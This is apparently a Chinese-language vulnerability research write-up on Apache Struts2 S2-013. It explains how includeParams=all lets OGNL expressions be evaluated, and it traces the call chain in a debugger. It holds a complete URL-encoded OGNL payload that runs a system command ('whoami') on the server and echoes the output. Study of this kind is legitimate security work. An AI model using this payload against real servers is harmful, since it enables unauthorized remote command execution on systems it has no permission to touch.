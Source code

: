 # S2-013 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software:  `Struts 2.0.0` - `Struts 2.3.14.1`

Problem: `Struts2` 标签中 ` <s:a> ` 和 ` <s:url> ` 都包含一个 `includeParams` 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

` <s:a> `用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行`OGNL`渲染，造成任意命令执行漏洞。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 9.0.34

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![20200718101337](img/20200718101337.png)

## Payload

`HelloWorld.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

## Debug

全局搜索`includeParams`关键字，发现有个`getIncludeParams`方法，先下个断点：

`s2-013/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/components/ComponentUrlProvider.class:73`

![getIncludeParams](img/getIncludeParams.png)

然后进入到`beforeRenderUrl`函数中。可以看到这个函数将我们提交的恶意参数include进来：

![includeParams](img/includeParams.png)

接下来找哪里将表达式进行了解析。

继续跟进，进入`end`函数：

![end](img/end.png)

跟进`renderUrl` -> `determineActionURL` -> `buildURL` -> `buildParametersString` -> `translateAndEncode`:

![1595138319483](img/renderUrl.png)

![1595136376298](img/buildUrl.png)

![1595136451346](img/buildParametersString.png)

![1595136519253](img/translateAndEncode.png)

一直跟进translate函数，直到TextParseUtil类的translateVariables方法中，通过stack.findValue方法触发OGNL表达式执行。

`s2-013/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/util/TextParseUtil.class:90`

![1595136693874](img/stackFindValue.png)



## Reference

- [S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)
- [S2-013/S2-014 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md )

